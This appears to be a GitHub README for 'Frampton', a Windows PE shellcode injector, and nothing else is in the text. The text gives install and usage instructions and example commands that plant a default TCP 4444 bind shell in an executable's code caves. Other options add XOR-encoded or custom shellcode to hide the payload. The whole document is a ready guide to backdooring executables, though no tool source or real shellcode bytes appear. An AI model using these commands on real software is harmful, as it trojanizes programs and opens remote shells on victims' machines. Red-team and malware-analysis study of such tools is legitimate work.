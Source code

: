 # Frampton
PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```
